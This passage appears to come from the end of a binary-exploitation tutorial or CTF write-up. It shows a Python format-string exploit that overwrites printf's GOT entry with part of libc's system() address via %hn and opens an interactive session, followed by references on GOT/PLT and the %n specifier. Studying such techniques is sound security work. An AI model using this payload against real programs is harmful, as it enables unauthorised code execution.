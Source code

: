 ```python
printf_got_address = elf.got['printf']
printf_address = libc.symbols["printf"]
system_address = hex(libc.symbols["system"])

system_pairs = [system_address[i:i+2] for i in range(0, len(system_address), 2)]
last_two_bytes_system = int(''.join(system_pairs[-2:]), 16)
print(last_two_bytes_system)

padding = 8 - ((7 + len(str(last_two_bytes_system))) % 8)
padding_payload = f'%{last_two_bytes_system}X%8$hn{'A'*padding}'.encode()
print(padding_payload, len(padding_payload))
payload = padding_payload + p64(printf_got_address)
p.sendline(payload)
p.interactive()
```


## References

[1] Binary exploitation: [https://medium.com/@0day_exploit/unveiling-the-power-of-binary-exploitation-mastering-stack-based-overflow-techniques-d263c8a07f67](https://medium.com/@0day_exploit/unveiling-the-power-of-binary-exploitation-mastering-stack-based-overflow-techniques-d263c8a07f67)

[2] Global Offset Table: [https://en.wikipedia.org/wiki/Global_Offset_Table](https://en.wikipedia.org/wiki/Global_Offset_Table)

[3] PLT and GOT: [https://www.linkedin.com/pulse/elf-linux-executable-plt-got-tables-mohammad-alhyari](https://www.linkedin.com/pulse/elf-linux-executable-plt-got-tables-mohammad-alhyari)

[4] PLT and GOT mitigation: [https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html)

[5] `%n` format specifier: [https://axcheron.github.io/exploit-101-format-strings/](https://axcheron.github.io/exploit-101-format-strings/)

